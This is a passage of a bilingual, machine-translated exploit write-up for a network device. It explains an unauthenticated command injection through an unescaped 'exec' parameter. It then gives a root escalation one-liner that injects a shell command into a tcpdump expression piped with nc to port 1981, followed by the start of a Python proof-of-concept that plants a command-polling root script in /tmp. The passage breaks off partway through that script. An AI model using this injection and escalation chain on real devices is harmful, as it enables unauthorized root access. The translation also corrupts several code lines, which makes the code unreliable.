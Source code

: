 As you can see the snippet doesn’t require any authorisation, while looking on the file you will notice the `exec` function accepts two parameters `$ip` and `$bypass`. If we change the type value to `5` the user can control the `$ip` value. Since there is no any escaping method we can execute any commands.  
正如你所看到的，这个代码片段不需要任何授权，在查看文件时，你会注意到 `exec` 函数接受两个参数 `$ip` 和 `$bypass` 。如果我们将type值更改为 `5` ，则用户可以控制 `$ip` 值。由于没有任何转义方法，我们可以执行任何命令。

**Rooting 生根**

While the above RCE will get you limited access (running as the web user) a service running on the device on port `1981` can be used to gain elevated privileges, this can be simply done by issuing the following command:  
虽然上面的RCE将为您提供有限的访问权限（作为Web用户运行），但可以使用在端口 `1981` 上的设备上运行的服务来获得提升的权限，这可以通过发出以下命令来简单地完成：

echo tcpdump capture dev lo count 2 expr '$(id>/www/i.txt)'|nc 127.0.0.1 1981  
echo tcpdump capture dev lo count 2 expr '$（id>/www/i.txt）'| 127.0.0.1 1981

**Proof of Concept 概念验证**

#!/usr/bin/python3

import sys

from time import sleep 从时间导入睡眠

import readline 导入读取行

from base64 import b64encode as base64\_encode  
从base64导入b64 encode作为base64\_encode

import requests 导入请求

import binascii 进口比纳斯

from requests.packages.urllib3.exceptions import InsecureRequestWarning  
从requests.packages.urllib3.exceptions导入InsecureRequestWarning

requests.packages.urllib3.disable\_warnings(InsecureRequestWarning)  
requests.packages.urllib3.disable\_warnings（InsecureRequestWarning）

ROOT\_SCR = """cat > /tmp/.r << \_EOT  
ROOT\_SCR =“cat > /tmp/.r << \_EOT

#!/bin/sh

touch /tmp/.rdie 触摸/tmp/.rdie

sleep 1 休眠1

rm -rf /tmp/.rdie /tmp/.r

killall -9 tcpdump tcpdump tcpdump

while true; do 当为真时

if \[ -e /tmp/.rcmd \] && \[ -f /tmp/.rcmd \]; then  
如果\[ -e /tmp/.rcmd \] && \[ -f /tmp/.rcmd \];则

touch /tmp/.cmdout  
触摸/tmp/. xmlout
